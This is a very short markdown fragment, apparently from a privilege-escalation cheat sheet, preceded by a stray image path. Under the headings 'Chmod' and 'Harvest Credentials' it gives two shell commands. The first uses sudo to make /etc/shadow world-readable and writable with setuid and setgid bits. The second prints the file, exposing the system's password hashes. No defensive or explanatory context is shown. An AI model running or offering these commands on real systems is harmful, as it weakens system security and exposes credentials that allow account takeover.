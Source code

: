 # Chmod

## Harvest Credentials

```
user@debian:~$ sudo chmod 6777 /etc/shadow

user@debian:~$ cat /etc/shadow
```